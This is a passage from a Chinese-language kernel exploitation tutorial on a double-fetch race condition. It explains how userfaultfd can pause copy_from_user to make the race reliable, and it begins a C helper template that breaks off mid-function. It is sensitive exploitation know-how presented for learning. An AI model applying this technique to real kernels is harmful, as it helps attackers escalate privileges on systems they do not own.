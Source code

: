 ![double-fetch](./asset/double-fetch.png)

正如上述文字描述的那样，这一漏洞本质属于race condition，所以要触发这一漏洞需要多线程环境，所以要在启动脚本中加入多线程多核的选项：

```
-smp 2,cores=2,threads=1  \
```

#### 利用userfailtfd提高竞争条件成功率

竞争条件是个比较看概率看脸的攻击手法，userfaultfd函数提供了一个用户自定的缺页处理函数。

```
			 userfaultfd() creates a new userfaultfd object that can be used
       for delegation of page-fault handling to a user-space
       application, and returns a file descriptor that refers to the new
       object.  
```

比如说：

```c
copy_from_user(kptr, user_buf, size);
```

当调用copy_from_user函数时，如果我们想利用条件竞争来修改kptr的值，也就是说在线程切换时执行竞争函数，这样的话概率比较小。如果 user_buf 是一个 mmap 的内存块，并且我们为它注册了 userfaultfd，那么在拷贝时出现缺页异常后此线程会先执行我们注册的处理函数，在处理函数结束前线程一直被暂停，结束后才会执行后面的操作，大大增加了竞争的成功率。

使用模版：

```c
void ErrExit(char* err_msg)
{
    puts(err_msg);
    exit(-1);
}

void RegisterUserfault(void *fault_page,void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        ErrExit("[-] ioctl-UFFDIO_API");

```